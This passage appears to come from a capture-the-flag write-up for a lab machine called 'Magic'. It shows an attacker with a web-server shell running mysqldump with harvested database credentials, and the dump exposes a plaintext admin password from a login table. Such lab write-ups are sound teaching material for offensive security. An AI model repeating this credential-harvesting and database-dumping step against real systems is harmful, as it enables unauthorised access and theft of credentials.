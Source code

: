 - We can't `ssh`, since it requires public key
  - `su` don't work either
  - Since it's a `db` creds, let's dump the database
  - There is no `mysql` binary, but we have `mysqldump`
```
www-data@ubuntu:/var/www/Magic/images/uploads$ mysqldump --user=theseus --password=iamkingtheseus --host=localhost Magic
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- MySQL dump 10.13  Distrib 5.7.29, for Linux (x86_64)
--
-- Host: localhost    Database: Magic
-- ------------------------------------------------------
-- Server version       5.7.29-0ubuntu0.18.04.1

/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8 */;
/*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
/*!40103 SET TIME_ZONE='+00:00' */;
/*!40014 SET @OLD_UNIQUE_CHECKS=@@UNIQUE_CHECKS, UNIQUE_CHECKS=0 */;
/*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
/*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
/*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;

--
-- Table structure for table `login`
--

DROP TABLE IF EXISTS `login`;
/*!40101 SET @saved_cs_client     = @@character_set_client */;
/*!40101 SET character_set_client = utf8 */;
CREATE TABLE `login` (
  `id` int(6) NOT NULL AUTO_INCREMENT,
  `username` varchar(50) NOT NULL,
  `password` varchar(100) NOT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `username` (`username`)
) ENGINE=InnoDB AUTO_INCREMENT=2 DEFAULT CHARSET=latin1;
/*!40101 SET character_set_client = @saved_cs_client */;

--
-- Dumping data for table `login`
--

LOCK TABLES `login` WRITE;
/*!40000 ALTER TABLE `login` DISABLE KEYS */;
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
/*!40000 ALTER TABLE `login` ENABLE KEYS */;
UNLOCK TABLES;
/*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;

/*!40101 SET SQL_MODE=@OLD_SQL_MODE */;
/*!40014 SET FOREIGN_KEY_CHECKS=@OLD_FOREIGN_KEY_CHECKS */;
/*!40014 SET UNIQUE_CHECKS=@OLD_UNIQUE_CHECKS */;
/*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
/*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
/*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;
/*!40111 SET SQL_NOTES=@OLD_SQL_NOTES */;

-- Dump completed on 2023-10-28 11:12:42

```
